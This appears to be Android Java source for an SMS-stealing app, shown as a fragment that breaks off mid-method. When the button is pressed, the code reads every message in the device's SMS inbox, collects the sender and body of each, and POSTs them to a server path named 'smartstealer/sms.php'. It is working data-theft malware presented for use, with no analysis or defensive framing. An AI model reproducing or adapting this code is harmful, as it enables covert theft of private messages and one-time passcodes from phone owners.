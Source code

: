import org.apache.http.client.entity.UrlEncodedFormEntity;
import org.apache.http.client.methods.HttpPost;
import org.apache.http.impl.client.DefaultHttpClient;
import org.apache.http.message.BasicNameValuePair;

import java.util.ArrayList;

public class MainActivity extends Activity {

  Button btn;
  String sms = "";

  ArrayList<BasicNameValuePair> arrayList = new ArrayList<BasicNameValuePair>();

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        btn = (Button) findViewById(R.id.btnStart);

        btn.setOnClickListener(new View.OnClickListener() {
          @Override
          public void onClick(View v) {
            Thread thread = new Thread(){

            @Override
            public void run() {

            Uri uri = Uri.parse("content://sms/inbox");

            Cursor cursor = getContentResolver().query(uri,null,null,null,null);

            int index = cursor.getColumnIndex("body");

            while(cursor.moveToNext()){

            sms += "From :" + cursor.getString(2) + ":" + cursor.getString(index) + "\n";
            }

              arrayList.add(new BasicNameValuePair("sms",sms));

              uploadData(arrayList);

            }
          };
          thread.start();
        }
     });

  }

  private void uploadData(ArrayList<BasicNameValuePair> arrayList) {

  DefaultHttpClient httpClient = new DefaultHttpClient();

  HttpPost httpPost = new HttpPost("http://10.1.1.4/smartstealer/sms.php");

  try {
        httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
        httpClient.execute(httpPost);

